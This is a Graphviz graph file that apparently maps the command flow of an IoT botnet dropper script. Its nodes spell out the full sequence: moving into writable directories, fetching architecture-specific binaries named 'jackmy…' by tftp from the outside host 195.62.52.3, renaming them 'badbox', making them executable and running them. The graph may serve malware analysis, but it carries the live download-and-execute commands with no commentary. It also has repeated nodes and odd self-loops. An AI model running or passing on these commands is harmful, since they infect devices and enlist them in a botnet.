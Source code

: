 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 14 [label="||,"];
14 [label="tftp -r jackmymips -g 195.62.52.3 "];
14 -> 16 [label=";,"];
16 [label="cat jackmymips badbox "];
16 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 34 [label="||,"];
34 [label="tftp -r jackmymips64 -g 195.62.52.3 "];
34 -> 36 [label=";,"];
36 [label="cat jackmymips64 badbox "];
36 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 54 [label="||,"];
54 [label="tftp -r jackmymipsel -g 195.62.52.3 "];
54 -> 56 [label=";,"];
56 [label="cat jackmymipsel badbox "];
56 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 74 [label="||,"];
74 [label="tftp -r jackmysh2eb -g 195.62.52.3 "];
74 -> 76 [label=";,"];
76 [label="cat jackmysh2eb badbox "];
76 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 94 [label="||,"];
94 [label="tftp -r jackmysh2elf -g 195.62.52.3 "];
94 -> 96 [label=";,"];
96 [label="cat jackmysh2elf badbox "];
96 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 114 [label="||,"];
114 [label="tftp -r jackmysh4 -g 195.62.52.3 "];
114 -> 116 [label=";,"];
116 [label="cat jackmysh4 badbox "];
116 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 134 [label="||,"];
134 [label="tftp -r jackmyx86 -g 195.62.52.3 "];
134 -> 136 [label=";,"];
136 [label="cat jackmyx86 badbox "];
136 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 154 [label="||,"];
154 [label="tftp -r jackmyi486 -g 195.62.52.3 "];
154 -> 156 [label=";,"];
156 [label="cat jackmyi486 badbox "];
156 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 174 [label="||,"];
174 [label="tftp -r jackmyi586 -g 195.62.52.3 "];
174 -> 176 [label=";,"];
176 [label="cat jackmyi586 badbox "];
176 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 194 [label="||,"];
194 [label="tftp -r jackmyi686 -g 195.62.52.3 "];
194 -> 196 [label=";,"];
196 [label="cat jackmyi686 badbox "];
196 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 214 [label="||,"];
214 [label="tftp -r jackmypowerpc -g 195.62.52.3 "];
214 -> 216 [label=";,"];
216 [label="cat jackmypowerpc badbox "];
216 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 234 [label="||,"];
234 [label="tftp -r jackmypowerpc440fp -g 195.62.52.3 "];
234 -> 236 [label=";,"];
236 [label="cat jackmypowerpc440fp badbox "];
236 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 254 [label="||,"];
254 [label="tftp -r jackmym86k -g 195.62.52.3 "];
254 -> 256 [label=";,"];
256 [label="cat jackmym86k badbox "];
256 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 274 [label="||,"];
274 [label="tftp -r jackmysparc -g 195.62.52.3 "];
274 -> 276 [label=";,"];
276 [label="cat jackmysparc badbox "];
276 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 294 [label="||,"];
294 [label="tftp -r jackmyarmv4 -g 195.62.52.3 "];
294 -> 296 [label=";,"];
296 [label="cat jackmyarmv4 badbox "];
296 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 314 [label="||,"];
314 [label="tftp -r jackmyarmv4tl -g 195.62.52.3 "];
314 -> 316 [label=";,"];
316 [label="cat jackmyarmv4tl badbox "];
316 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 334 [label="||,"];
334 [label="tftp -r jackmyarmv5 -g 195.62.52.3 "];
334 -> 336 [label=";,"];
336 [label="cat jackmyarmv5 badbox "];
336 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
361 [label="./badbox "];
361 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/system "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 354 [label="||,"];
354 [label="tftp -r jackmyarmv6 -g 195.62.52.3 "];
354 -> 356 [label=";,"];
356 [label="cat jackmyarmv6 badbox "];
356 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 361 [label=";,"];
}

